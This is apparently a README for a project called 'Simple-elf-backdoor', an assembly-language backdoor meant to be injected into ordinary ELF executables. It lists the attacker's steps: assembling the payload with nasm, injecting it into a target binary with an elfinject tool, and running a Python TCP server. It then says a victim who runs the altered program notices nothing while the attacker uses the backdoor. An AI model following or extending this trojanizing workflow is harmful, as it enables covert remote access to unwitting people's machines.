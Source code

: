# Simple-elf-backdoor

It is an elf backdoor written in pure assembly language.

# Current Status(2022/12/04)

The backdoor and server have been completed, but code modifications for elf-injection are underway.

# Expected Behavior upon completion
## Attacker
### backdoor
```bash
$ nasm -f bin backdoor.s -o backdoor.bin
$ ./elfinject elftarget backdoor.bin ".injected" 0x800000 0
```
### server
```
$ python3 tcpServer.py
```
## victim
If victim download or obtain the file in any way
```
$ ./elftarget
```
The victim uses the original program without problems and Attackers use backdoors.

### Current development before elfinjection
